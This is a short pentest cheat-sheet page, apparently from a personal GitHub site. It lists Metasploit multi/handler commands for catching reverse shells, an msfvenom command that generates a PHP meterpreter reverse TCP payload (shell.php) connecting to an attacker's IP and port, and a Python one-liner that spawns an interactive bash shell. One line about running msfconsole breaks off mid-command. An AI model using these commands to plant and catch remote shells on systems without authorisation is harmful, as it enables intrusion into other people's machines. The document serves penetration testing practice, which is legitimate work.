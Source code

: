 ```yaml
---
title: /snippets
layout: page
permalink: /snippets
---
```


### Metasploit

#### Handlers

```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r 

#### Scripting Payloads

###### PHP
```bash
msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> 
lport=<your-port-address> -o shell.php
```


### Python

##### spawn a terminal 
```python
python -c 'import pty;pty.spawn("/bin/bash")';
```
